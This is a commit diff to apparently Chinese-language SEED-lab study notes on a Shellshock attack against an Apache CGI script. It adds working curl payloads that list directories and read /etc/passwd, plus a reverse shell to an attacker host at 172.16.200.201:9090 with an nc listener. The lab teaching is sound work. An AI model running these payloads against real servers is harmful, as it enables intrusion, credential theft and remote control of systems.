

Before and after one commit to cc3213252/note-seed-labs, an MkDocs documentation site: the page built from docs/shellshock/attack-cgi.md, in a window 1280 px wide and 1400 px high, scrolled down 1010 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
查看目录、盗密码、反向shell

````diff
--- a/docs/shellshock/attack-cgi.md
+++ b/docs/shellshock/attack-cgi.md
@@ -1,4 +1,9 @@
 # 攻击CGI程序
+
+## CGI概念
+
+CGI（common gateway interface）通用网关接口，该程序可以通过网页运行各种后台程序，如shell、python、c等，
+apache默认是支持CGI的，但是需要配置一下，nginx默认不支持CGI，可以通过安装额外的插件来支持。
 
 ## apache环境搭建
 
@@ -10,10 +15,12 @@
 sudo /etc/init.d/apache2 restart
 ```
 
+apache默认运行cgi程序的目录在/usr/lib/cgi-bin，我们在这个目录新建一个测试文件
 ```bash
-sudo vi /var/www/html/test.cgi
+sudo vi /usr/lib/cgi-bin/test.cgi
 ```
 
+写入文件内容：
 ```bash
 #!/bin/bash
 
@@ -23,8 +30,95 @@
 echo "Hello World"
 ```
 
+给文件可执行权限
 ```bash
 sudo chmod 755 test.cgi
 ```
 
+最后通过浏览器访问该文件：
 http://192.168.0.11/cgi-bin/test.cgi
+显示如下结果则测试成功
+![测试cgi](../img/shellshock-cgitest.png)
+
+## web调用cgi的原理
+
+![web调用cgi原理](../img/shellshock-cgiinvoke.png)
+
+!!! Note
+
+    web向apache发送cgi请求时，Apache会调用fork()函数新建一个进程，然后使用exec()函数族中的某个
+    函数在新进程中执行cgi程序。因为cgi程序以"#!/bin/bash"开头，因此该程序是一个shell脚本，实际
+    执行的是/bin/bash
+
+## 攻击入口原理
+
+```bash
+#!/bin/bash
+
+echo "Content-type: text/plain"
+echo
+echo
+echo "** Environment Variables ***"
+strings /proc/$$/environ
+```
+通过-v选项打印请求：
+```bash
+curl -v http://192.168.0.11/cgi-bin/test.cgi
+```
+
+可以修改User-Agent字段：
+```bash
+curl -A "test" -v http://192.168.0.11/cgi-bin/test.cgi
+```
+
+!!! Note
+
+    这个实验说明，cgi进程会从远程用户那里获得HTTP_USER_AGENT，而这个值可以由用户传入，故只要用户
+    带上这个值就可以进行攻击（还可以使用其他字段，如Referer等）
+
+## 实施shellshock攻击
+
+### 查看服务器目录
+
+```bash
+curl -A "() { echo hello;}; echo Content_type: text/plain; echo; /bin/ls -l" http://192.168.0.11/cgi-bin/test.cgi
+```
+
+![攻击查看服务器目录](../img/shellshock-cgiattack1.png)
+
+### 盗取密码
+
+```bash
+curl -A "() { echo hello;}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" http://192.168.0.11/cgi-bin/test.cgi
+```
+
+![盗取密码](../img/shellshock-cgiattack2.png)
+
+!!! warning
+
+    如何修改Content_type实现压缩web服务器的目录并发送到外部？
+
+### 反向shell
+
+!!! Note
+
+    反向shell的目的是让shell程序把它的输入输出都交由远程计算机控制，关键在于重定向标准输入、
+    输出和错误设备到一个网络连接。故实施时双方要建立一个tcp连接。
+
+步骤：
+* 宿主机运行
+```bash
+nc -lv 9090
+```
+
+* 宿主机发动攻击
+```bash
+curl -A "() { echo hello;}; echo Content_type: text/plain; echo; echo; /bin/bash -i > /dev/tcp/172.16.200.201/9090 0<&1 2>&1" http://192.168.0.11/cgi-bin/test.cgi
+```
+> -i 进入可交互模式
+> 172.16.200.201是宿主机地址
+> 0<&1 0是标准输入设备，将标准输入用作标准输出，而输出已重定向到tcp连接，故是输入和输出都走tcp
+> 2>&1 2是标准错误，也走tcp
+
+在宿主机上获得了目标服务器的shell，cgi进程的用户id是www-data
+![反向shell](../img/shellshock-cgiattack3.png)
````
Also changed, not shown: docs/img/shellshock-cgiattack1.png (added), docs/img/shellshock-cgiattack2.png (added), docs/img/shellshock-cgiattack3.png (added), docs/img/shellshock-cgiinvoke.png (added), docs/img/shellshock-cgitest.png (added).
